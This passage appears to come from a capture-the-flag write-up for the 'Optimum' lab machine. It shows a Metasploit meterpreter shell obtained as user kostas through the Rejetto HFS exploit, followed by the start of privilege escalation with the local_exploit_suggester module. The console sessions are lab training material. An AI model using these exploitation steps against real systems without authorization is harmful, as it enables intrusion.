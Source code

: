 ```console
meterpreter > pwd
C:\Users\kostas\Desktop
meterpreter > getuid
Server username: OPTIMUM\kostas
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2023-12-30 01:27:36 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 08:11:17 -0400  hfs.exe
100444/r--r--r--  34      fil   2023-12-29 23:07:20 -0500  user.txt
```

We got a meterpreter shell as the OPTIMUM\\kostas user! The user flag can be found in the directory we dropped in, i.e. `C:\Users\kostas\Desktop\user.txt`. Next, we need to find a way to escalate our privileges.

> In the output above, we can see that Metasploit tried to delete the payload `%TEMP%\namCuLOXkD.vbs` but it does not know whether it was successful. In a real assessment, we should double-check and make sure that it was deleted or delete it ourselves.
{: .prompt-warning}

## Privilege Escalation

Let's start by putting our newly gained shell in the background by pressing `CTRL+SHIFT+Z`. Confirm and keep note of the session number that is printed out. This number will be important soon.

We will search for the post-exploitation module `local_exploit_suggester`. This module searches for Metasploit exploits that could potentially be used on our target system after we got a foothold. Though, not all found exploits actually work. We will just have to make an educated guess on which one will work or try them randomly/sequentially.

```console
msf6 exploit(windows/http/rejetto_hfs_exec) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(windows/http/rejetto_hfs_exec) > use 0
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.
```